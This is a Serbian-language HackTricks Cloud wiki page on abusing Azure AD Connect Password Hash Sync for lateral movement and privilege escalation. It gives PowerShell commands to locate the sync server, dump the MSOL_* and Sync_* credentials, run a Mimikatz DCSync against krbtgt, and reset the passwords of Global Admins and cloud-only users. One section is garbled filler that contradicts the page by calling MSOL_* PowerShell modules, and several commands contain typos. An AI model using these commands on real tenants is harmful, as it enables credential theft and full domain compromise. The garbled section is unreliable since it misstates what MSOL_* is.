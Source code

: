 # Az - PHS - Sinhronizacija heš lozinki

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

[Iz dokumentacije:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Sinhronizacija heš lozinki** je jedan od metoda prijave koji se koristi za postizanje hibridnog identiteta. **Azure AD Connect** sinhronizuje heš, heša, lozinke korisnika sa lokalnog Active Directory-ja na oblak zasnovani Azure AD.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To je **najčešći metod** koji koriste kompanije za sinhronizaciju lokalnog AD-a sa Azure AD-om.

Svi **korisnici** i **heš lozinki** se sinhronizuju sa lokalnog na Azure AD. Međutim, **lozinke u čistom tekstu** ili **originalni heševi** se ne šalju na Azure AD.\
Osim toga, **ugrađene** bezbednosne grupe (kao što su administratorske grupe domena...) se **ne sinhronizuju** na Azure AD.

Sinhronizacija heševa se vrši svakih **2 minuta**. Međutim, podrazumevano, **istek lozinke** i **istek naloga** se **ne sinhronizuju** u Azure AD. Dakle, korisnik čija je **lozinka na lokalnom AD-u istekla** (nije promenjena) može i dalje **pristupati Azure resursima** koristeći staru lozinku.

Kada korisnik sa lokalnog AD-a želi da pristupi Azure resursu, **autentifikacija se vrši na Azure AD-u**.

**PHS** je potreban za funkcionalnosti kao što su **Identity Protection** i AAD Domain Services.

## Pivoting

Kada je PHS konfigurisan, automatski se **kreiraju** neki **privilegovani nalozi**:

* Nalog **`MSOL_<installationID>`** se automatski kreira na lokalnom AD-u. Ovom nalogu je dodeljena uloga **Directory Synchronization Accounts** (videti [dokumentaciju](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) što znači da ima **dozvole za replikaciju (DCSync) u lokalnom AD-u**.
* Nalog **`Sync_<ime on-prem ADConnect Server-a>_installationID`** se kreira na Azure AD-u. Ovaj nalog može **resetovati lozinku bilo kog korisnika** (sinhronizovanog ili samo u oblaku) na Azure AD-u.

Lozinke ova dva privilegovana naloga se **čuvaju u SQL serveru** na serveru gde je **Azure AD Connect instaliran**. Administratori mogu izvući lozinke ovih privilegovanih korisnika u čistom tekstu.\
Baza podataka se nalazi u `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Moguće je izvući konfiguraciju iz jedne od tabela, pri čemu je jedna enkriptovana:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**Enkriptovana konfiguracija** je enkriptovana sa **DPAPI** i sadrži lozinke korisnika `MSOL_*` na lokalnom AD-u i lozinku **Sync\_\*** na Azure AD-u. Dakle, kompromitovanjem ovih lozinki moguće je dobiti privilegije na AD-u i Azure AD-u.

Možete pronaći [potpuni pregled kako se ove lozinke čuvaju i dešifruju u ovom predavanju](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Pronalaženje **Azure AD connect server-a**

Ako je **server na kojem je instaliran Azure AD Connect** pridružen domeni (preporučeno u dokumentaciji), moguće ga je pronaći pomoću:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Zloupotreba MSOL\_\*

MSOL\_\* (Microsoft Online Services) je skup PowerShell modula koji se koriste za upravljanje Azure AD (Active Directory) i Office 365. Ovi moduli pružaju funkcionalnosti za administraciju korisnika, grupa, licenci i drugih resursa u oblaku.

Jedna od tehnika zloupotrebe je iskorišćavanje MSOL\_\* modula za izvršavanje neovlašćenih radnji. Ovo se može postići korišćenjem ukradenih ili kompromitovanih legitimacija za pristup Azure AD ili Office 365. Nakon što se uspostavi veza sa Azure AD, napadač može izvršavati različite komande za manipulaciju korisnicima, grupama ili drugim resursima.

Ova tehnika zloupotrebe može biti posebno opasna u hibridnom okruženju, gde se koristi Azure AD Connect za sinhronizaciju identiteta između lokalnog okruženja i Azure AD. Napadač može iskoristiti ovu vezu za izvršavanje napada sa oblaka na lokalno okruženje.

Da bi se sprečila zloupotreba MSOL\_\* modula, preporučuje se primena sigurnosnih mera kao što su:

- Redovno ažuriranje i praćenje sigurnosnih zakrpa za Azure AD Connect i Office 365.
- Korišćenje snažnih lozinki i dvofaktorne autentifikacije za Azure AD i Office 365 naloge.
- Praćenje i analiza logova za otkrivanje sumnjivih aktivnosti.
- Ograničavanje privilegija pristupa MSOL\_\* modulima samo na neophodne korisnike ili grupe.

Implementacija ovih mera može pomoći u zaštiti od zloupotrebe MSOL\_\* modula i održavanju sigurnosti Azure AD i Office 365 okruženja.
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Možete takođe koristiti [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) da biste dobili ove akreditive.
{% endhint %}

### Zloupotreba Sync\_\*

Kompromitovanjem **`Sync_*`** naloga moguće je **resetovati lozinku** bilo kog korisnika (uključujući Globalne Administratore)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Takođe je moguće **izmeniti lozinke samo za korisnike u oblaku** (čak i ako je to neočekivano)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Takođe je moguće izvući lozinku ovog korisnika.

{% hint style="danger" %}
Druga opcija bi bila **dodeliti privilegovane dozvole servisnom principu**, koje **Sync** korisnik ima **dozvole** da uradi, a zatim **pristupiti tom servisnom principu** kao način za privesc.
{% endhint %}

### Bezbedno SSO

Moguće je koristiti Bezbedno SSO sa PHS, što je podložno drugim zloupotrebama. Proverite to u:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Reference

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

